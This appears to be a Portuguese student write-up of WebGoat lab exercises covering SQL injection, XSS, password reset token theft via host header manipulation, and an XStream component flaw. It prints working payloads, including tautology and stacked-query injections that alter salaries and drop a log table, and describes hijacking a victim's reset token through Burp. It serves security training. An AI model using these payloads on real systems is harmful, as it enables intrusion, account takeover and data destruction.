


## Pergunta 1.1 - SQL Injection ##
### 2) ###
Retornar o departamento do empregado Bob Franco. 

    SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'

  

### 3) ###
Alterar o departamento do empregado Tobi Barnett para 'Sales'.

    UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'
    

### 4) ###
Adicionar a coluna "phone" na tabela "employees"

    ALTER TABLE Employees ADD phone varchar(20)
    

### 5) ###
Conceder a um grupo de utilizadores o direito de alterar tabelas

    GRANT ALTER TABLE TO 'UnauthorizedUser'
    

### 9) ###
Obter todos os utilizadores da tabela onde os campos foram preenchidos por:
+ Smith'
+ or
+ '1'='1

A query final otida foi:

    SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'
    

### 10) ###
O objetivo desta alínea passava por retornar todos os dados da tabela 'users'. Assim, após descobrimos que o campo User_Id era suscetível a SQL Injection, preenchemos os campos da seguinte forma:
+ **Login_Count**: 1
+ **User_Id**: 1 or 1=1

Obtendo assim:

    SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1
    

### 11) ###
Neste ponto era pretendido obter todos os dados da tabela 'employees', sabendo que a query era: 
    
    SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""
   
Assim, os campos foram completados com: 
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A' or '1'='1';--

### 12) ###
Após sabermos o formato da tabela 'employees' devido à alínea anterior bastava-nos alterar o input pretendido num dos campos criando uma nova query e delimintando-as com ';'

Posto isto, os campos forma preenchidos da seguinte forma:
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A'; UPDATE SET salary=9999999 where last_name='Smith

### 13) ###
Para apagar os registos feitos pelo utilizador o input foi completado da seguinte forma: 
    
    Smith'; DROP TABLE access_log;--
    
Assim, a query anterior foi separada da nova utilizando novamente ";"

## Pergunta 2.1 - XSS ##

### 2) ###

Após testarmos o comando na barra de endereços chegámos à conclusão qe a informação apresentada em ambas as páginas era a mesma.

### 7) ###
Depois de executar alguns testes o campo vulnerável descoberto foi o do cartão de crédito, onde executamos:

    <javascript>alert()</javascript>
    
    
### 10) ###

Primeiramente fomos à fonte do JavaScritp através do atalho de teclado : CTRL + SHIFT + I e procurámos pelo ficheiro GoatRouter.js onde encontrámos todas as rotas inclusive a de teste que tinha sido deixada durante a produção da aplicação.

### 11) ###

Para a realização deste ponto foram abertos a consola e um novo separador com a rota anteriormente encontrada. Nessa rota foi acrescentado o comando: 

    
    /<script>webgoat.customjs.phoneHome()<%2Fscript>
    
De seguida, na consola foi nos apresentado a resposta.
     

### 12) ###

+ **1**: Solution 4
+ **2**: Solution 3
+ **3**: Solution 1
+ **4**: Solution 2
+ **5**: Solution 4

## Pergunta 3.1 - Password Reset ##

### 2) ###

Após seguir as instruções, foi iniciado o WebWolf para aceder ao email e realizar o login, como mostram as figuras abaixo:

### 4) ###

Após várias tentativas as cores encontradas foram:

+ **Admin**: Green
+ **Larry**: Yellow
+ **Tom**: Purple

### 6) ###

A princípio foi necessário realizar um teste com um utilizador do atacante para entender como funciona o processo de *password changing*. Feito isto, foi constatado que o link enviado ao Webwolf continha um *token* que é passado no endereço. Sendo assim, com a ferramenta Burp ligada, foi realizado um pedido de mudança de *password* para o email da vítima (tom@webgoat-cloud.org), ilustrado na figura abaixo.  

No Burp, foi possível interceptar o *request* feito pela vítima e ao alterar o host para `localhost:9090`, este pedido foi encaminhado para o Webwolf. As figuras abaixo ilustram estes passos.  

Já no Webwolf, logado como o atacante, recebemos no `Incoming requests` o pedido para alterar a *password* da vítima com o seu respectivo *token*, como mostra a figura abaixo.  

Em seguida, inserimos o *token* da vítima no endereço de alteração de *password* do WebGoat para chegar à url: `http://localhost:8080/WebGoat/PasswordReset/reset/reset-password/c3b91407-c7c3-4044-8eaa-cc3d98e9792b` e então, finalmente tivemos acesso para alterar a *password* do email da vítima como mostram as figuras a seguir.  

## Pergunta 4.1 - Vulnerable components ##

### 12) ###
Para explorar a vulnerabilidade presente bastou inserir o seguinte excerto de código:

    <java.lang.Integer>1</java.lang.Integer>

  

  
    

